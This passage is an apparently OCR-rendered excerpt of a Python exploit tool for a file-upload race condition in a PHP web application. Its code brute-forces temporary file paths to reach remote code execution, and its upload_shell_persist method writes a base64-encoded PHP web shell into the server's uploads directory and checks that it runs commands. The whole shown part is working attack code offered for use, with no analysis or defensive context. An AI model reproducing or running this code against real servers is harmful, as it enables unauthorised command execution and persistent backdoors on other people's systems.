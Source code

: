 ```py
                                for k, v in headers.items():
                                    print(f"{k}: {v}")
                            if self.config.show_response:
                                print("-- Response --")
                                cap = 64 * 1024
                                body = text if len(text) <= cap else text[:cap] + "\n...[truncated]"
                                print(body)
                            print("="*60 + "\n")
                            logger.info(f"[FOUND NUMBER] {url}")
                            self.stop_evt.set()
                            return url, text
                except Exception as e:
                    logger.debug(f"Bruteforce loop exception: {e}")
        return None, None

    def upload_shell_persist(self, hit_url: str, payload_path: str = "/var/www/html/uploads/shell.php") -> None:
        try:
            b64 = base64.b64encode(self.config.php.encode()).decode()
            php_cmd = f"php -r 'file_put_contents(\"{payload_path}\", base64_decode(\"{b64}\"));'"
            self.session.get(f"{hit_url}&stage=persist", params={}, allow_redirects=False)
            r = self.session.get(f"{hit_url.split('?')[0]}?0={quote(php_cmd, safe='')}")
            logger.info(f"[persist] Write Shell To {payload_path}")
            test = self.session.get(f"{self.base.rstrip('/')}/uploads/{payload_path.split('/')[-1]}?0=id")
            if test.status_code == 200:
                logger.info(f"[persist] OK: {test.text.strip()}")
            else:
                logger.warning(f"[persist] test HTTP {test.status_code}")
        except Exception as e:
            logger.error(f"[persist] error: {e}")

    def stop(self) -> None:
        self.stop_evt.set()
        if self.upload_thread:
            self.upload_thread.join(timeout=1.0)
        logger.info("Stopped")

    def run(self) -> None:
        try:
            self.start_upload_loop()
            hit_url, text = self.bruteforce()
            if hit_url:
                logger.info(f"[+] RCE Success At: {hit_url}")
                if self.config.persist:
                    self.upload_shell_persist(hit_url)
            else:
                logger.info("[-] No found number.")
        except KeyboardInterrupt:
            logger.info("Interrupted by user.")
        finally:
            self.stop()

def parse_args() -> Config:
    ap = argparse.ArgumentParser(description="Exploit Race Condition In Upload WebShell (OOP refactor).")
    ap.add_argument("--base", required=True, help="Base URL, http://TARGET")
    ap.add_argument("--upload", default="/upload.php", help="Upload path")
    ap.add_argument("--tmp", default="/tmp", help="Temp web path where files appear ")
    ap.add_argument("--cmd", default="id", help="Command to execute via ?0=")
    ap.add_argument("--threads", type=int, default=300, help="Concurrent GET workers over /tmp/0000..9999")
```